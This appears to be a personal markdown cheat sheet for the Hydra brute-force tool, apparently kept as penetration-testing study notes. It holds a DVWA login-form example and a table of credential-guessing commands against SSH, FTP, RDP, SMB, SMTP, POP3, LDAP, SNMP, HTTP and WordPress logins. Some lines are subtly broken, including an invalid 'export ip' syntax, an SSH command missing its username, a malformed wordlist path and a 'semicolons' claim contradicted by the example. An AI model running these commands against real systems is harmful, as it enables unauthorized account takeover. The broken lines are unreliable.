 ### Hydra Notes

#### Basic hydra command 

this command must be edited to fit the paramaters of the login page. it's just a basic layout of the command. 

`hydra 192.168.1.150 -l admin -P ‘pass.txt’ http-get-form “/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect.:H=Cookie:PHPSESSID=13f2650bddf7a9ef68858ceea03c5d; security=low”`

#### [A Detailed Guide on Hydra](https://www.hackingarticles.in/a-detailed-guide-on-hydra/)


Targeted combinations

If we have a list of usernames and passwords, we can implement a dictionary attack. But if we have more information on which usernames are likely to have a set of passwords, we can prepare a custom list for Hydra.

For example, we can create a list of usernames and passwords separated by semicolons like the one below.

username1:password1
username2:password2
username3:password3

We can then use the -C flag to tell Hydra to run these specific combinations instead of looping through all the users and passwords. This drastically reduces the time taken to complete a brute-force attack.

Here is the syntax.

`hydra -C <combinations.txt> <ip> <service>`


## Hydra Password Cracking Cheetsheet

The following table uses the $ip variable which can be set with the following command:

`export ip 10.10.10.1`

| Command                                                             | Description                                                  |
|---------------------------------------------------------------------|--------------------------------------------------------------|
| `hydra -P password-file.txt -v $ip snmp`                            | Hydra brute force against SNMP                               |
| `hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp` | Hydra FTP known user and rockyou password list               |
| `hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh`      | Hydra SSH using list of users and passwords                  |
| `hydra -v -V -u -L users.txt -p "" -t 1 -u $ip ssh`                 | Hydra SSH using a known password and a username list         |
| `hydra $ip -s 22 ssh -l -P big_wordlist.txt`                        | Hydra SSH Against Known username on port 22                  |
| `hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V`  | Hydra POP3 Brute Force                                      |
| `hydra -P /usr/share/wordlists/nmap.lst $ip smtp -V`                 | Hydra SMTP Brute Force                                      |
| `hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin`         | Hydra attack http get 401 login with a dictionary            |
| `hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip` | Hydra attack Windows Remote Desktop with rockyou |
| `hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb` | Hydra brute force SMB user with rockyou          |
| `hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'` | Hydra brute force a Wordpress admin login |
| `hydra -L usernames.txt -P passwords.txt $ip smb -V -f`             | SMB Brute Forcing                                            |
| `hydra -L users.txt -P passwords.txt $ip ldap2 -V -f`               | LDAP Brute Forcing                                           |
